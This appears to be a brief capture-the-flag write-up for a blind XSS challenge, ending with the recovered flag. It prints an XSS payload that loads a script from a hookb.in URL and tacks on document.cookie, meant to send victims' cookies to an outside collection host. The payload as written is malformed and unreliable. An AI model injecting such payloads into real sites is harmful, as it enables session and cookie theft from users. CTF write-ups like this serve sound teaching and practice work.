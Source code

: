 This challenge requires blind xss injection.
our intial payload was 
><script src='https://hookb.in/7ZGMgJJPKNua99D3yQPP' +document.cookie</script>
where we  are recieving a cookie using the "document.cookie" function and capturing teh response at
the hookbin link given.

But after discovering a "Secret_admin_cookie_panel" we go the end point and refresh the page where 
we recieve the flag zh3r0{{Ea5y_bx55_ri8}}
